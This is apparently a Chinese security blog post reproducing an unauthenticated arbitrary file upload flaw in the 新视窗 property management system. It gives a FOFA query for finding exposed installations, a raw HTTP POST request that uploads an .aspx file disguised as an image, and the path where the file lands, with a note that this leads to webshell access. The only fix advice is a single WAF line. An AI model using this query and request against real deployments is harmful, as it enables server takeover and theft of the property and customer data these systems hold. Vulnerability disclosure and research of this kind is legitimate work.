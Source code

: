 #  [已复现]新视窗新一代物业管理系统任意文件上传漏洞   
原创 Garck3h  pentest   2024-04-10 19:13  
  
## 前言   
  
       新视窗新一代物业管理系统该系统涵盖了物业管理全流程，包括客户服务、业户管理、报事报修、设施设备管理、财务管理等功能，具有灵活的多组织架构，可以满足不同规模物业公司的需求。  
  
       该系统某接口对上传的文件校验逻辑存在缺陷，导致攻击者可以上传webshell文件到服务器，进而可以getshell。  
  
声明：文章中涉及的内容可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。  
## FOFA语法   
```
body="BPMSite/ClientSupport/OCXInstall.aspx"

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/u3BDsxBAuibWUE4hrmccwRI1wBpy5SMWSyiauJHr4VIBnozHCL8ngNgTjTQ8F7Bp9p5Vibqk27fPZtejDlCibic44qQ/640?wx_fmt=png&from=appmsg "")  
## 漏洞复现   
  
直接未授权访问接口进行上传文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/u3BDsxBAuibWUE4hrmccwRI1wBpy5SMWSbecxGns7IFUjRia7mIYvmtHQ4rOdaLej9ktZf3mBOa5WLU8SHbxTGwA/640?wx_fmt=png&from=appmsg "")  
  
```
POST /OfficeManagement/RegisterManager/Upload.aspx HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Cookie: JSESSIONID=FC2204F3698D2A07CDE9786055A071CB
Content-Type: multipart/form-data; boundary=00content0boundary00
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2Content-Length: 146Connection: close--00content0boundary00Content-Disposition: form-data; name="file"; filename="1.aspx"Content-Type: image/jpgGIF89a123--00content0boundary00--
```  
  
访问路径  
```
/Upload/ContractMamager/71d52920be4d-4956-93f9-77c3b0c899e81.aspx

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/u3BDsxBAuibWUE4hrmccwRI1wBpy5SMWSbyiayUbp2zY1icRhKpvZjgATiayGNwRSAwG5Bzbl3BUl3MnKg2QP5X0xQ/640?wx_fmt=png&from=appmsg "")  
  
## 修复建议   
  
配置WAF针对该URI进行特定数据包内容匹配后拦截  
  
  
